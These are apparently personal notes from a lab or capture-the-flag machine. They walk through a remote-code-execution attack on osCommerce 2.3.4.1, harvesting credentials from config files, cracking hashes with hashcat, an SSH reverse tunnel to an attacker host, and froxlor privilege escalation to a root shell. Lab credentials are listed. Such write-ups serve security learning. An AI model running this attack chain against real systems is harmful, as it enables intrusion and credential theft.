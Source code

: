## Takeaway
- Password found is reused for `root` user in `mysql` database.
## Metadata
- Add `192.168.216.223 milan` to `/etc/hosts`. 
	- Visiting `http://milan:60001/catalog/` reveals  that it is using `osCommerce`. ![[Pasted image 20240311203157.png]]
	- `CHANGELOG` under `http://milan:60001/docs` reveals that it is probably running version `v2.3.4.1`.![[Pasted image 20240311203330.png]]
	- It is vulnerable to RCE.![[Pasted image 20240311204102.png]]
- Credential `oscuser: 7NVLVTDGJ38HM2TQ` for `MySQL` can be found in `/var/www/html/oscommerce/catalog/admin/includes/configure.php`.
	- Password is reused for `MySQL` root user. Exfiltrate more users' hashes from `froxlor` databases. Run `hashcat -m 7400 creds.hash /usr/share/wordlists/rockyou.txt --force` to obtain credential as `flybike:Christopher`.![[Pasted image 20240311233336.png]]
- There is indeed a `froxlor` instance listening at port `60002` where the newly discovered credential can be used.![[Pasted image 20240312150529.png]]
	- However, although it is listening on all addresses but it is only available locally probably due to firewall restriction.
		- Spin up `reverse-ssh` on out end and run `ssh -N -R 127.0.0.1:60002:127.0.0.1:60002 whatever@192.168.45.242` to set up remote port forward.
	- The version of `froxlor` is `0.10.29.1` which is vulnerable to not only `RCE` but also `PrivEsc`.![[Pasted image 20240312151027.png]]
		- https://www.exploit-db.com/exploits/50502
# Exploitation
- Run `searchsploit -m php/webapps/44374.py` and modify as the image shows: ![[Pasted image 20240311204640.png]]
- Finally, run `` navigate to `http://milan:60001/catalog/install/includes/configure.php` to receive a reverse shell call back.
# PrivEsc
- Following the instruction on https://www.exploit-db.com/exploits/50502
	- First add new admin user since we have root access to `MySQL` database.
	- Login as new admin, and user 2 `config files rebuild` to spawn a root reverse shell.
# Beyond Root
- Only allow inbound traffic to port `80, 443, 60001` and that's why we need port forwarding  to access `60002`.![[Pasted image 20240312151610.png]]
- Only allow outbound traffic to port `22, 80, 443`.![[Pasted image 20240312151619.png]]
# Credentials
- `Mysql`:
	- `oscuser`: 7NVLVTDGJ38HM2TQ
- `flybike`:Christopher
	- for `froxlor` Login Page
	- sarah@skylark.local